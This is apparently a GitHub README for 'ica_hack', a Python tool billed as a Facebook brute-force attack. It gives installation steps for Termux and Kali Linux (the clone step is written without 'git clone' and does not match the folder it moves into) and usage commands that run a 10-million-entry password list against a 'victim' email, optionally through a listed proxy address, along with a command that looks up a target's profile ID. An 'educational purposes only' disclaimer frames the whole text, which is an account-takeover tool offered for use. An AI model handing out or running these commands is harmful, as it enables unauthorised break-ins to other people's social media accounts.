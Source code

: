 
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge

```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
https://github.com/ICA-REX/ICA-REX.git
```
```bash
cd ica_hack
```
```bash
bash setup
```
```bash
python ica_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python ica_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3123
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python ica_hack.py -g https://www.facebook.com/rexit
  
